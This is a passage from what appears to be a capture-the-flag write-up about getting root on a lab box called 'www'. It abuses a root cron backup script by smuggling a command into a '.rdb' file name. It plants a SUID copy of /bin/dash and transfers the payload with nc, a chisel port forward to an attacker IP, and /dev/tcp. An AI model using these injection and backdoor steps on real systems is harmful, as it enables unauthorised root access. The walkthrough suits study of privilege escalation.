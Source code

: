 We can name our file `FILE.rdb -e OUR_COMMAND;` . Let’s find out if this script is ran by root as a cron job:

```bash
www-data@www:/etc/apache2/sites-available$ ls /etc/cron*
ls /etc/cron*
/etc/crontab

/etc/cron.d:
backup

/etc/cron.daily:
apache2  apt  dpkg  exim4-base  passwd

/etc/cron.hourly:

/etc/cron.monthly:

/etc/cron.weekly:

```

```bash
cat /etc/cron.d/backup

*/3 * * * * root sh /backup/backup.sh
```

The script is ran every 3 minutes by root. Let’s exploit it. We craft our payload. Let’s copy a /bin/dash shell and give it SUID privileges, since it does not drop privileges. Our payload is:

```bash
#!/bin/sh

cp /bin/dash /tmp/suid
chmod 4755 /tmp/suid
```

Let’s save that to a file.rdb e.g.  script in the /var/www/html/f187a0ec71ce99642e4f0afbd441a68b dir.

```bash
#on attack
nc -lnvp 8001 -q0 < privesc

#on node-red, we need another local port forward:
./chisel client 10.10.16.4:8005 8001:localhost:8001 &

#on www

cd /tmp
cat < /dev/tcp/172.19.0.3/8001 > privesc.rdb
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
cp /tmp/privesc.rdb privesc.rdb

```
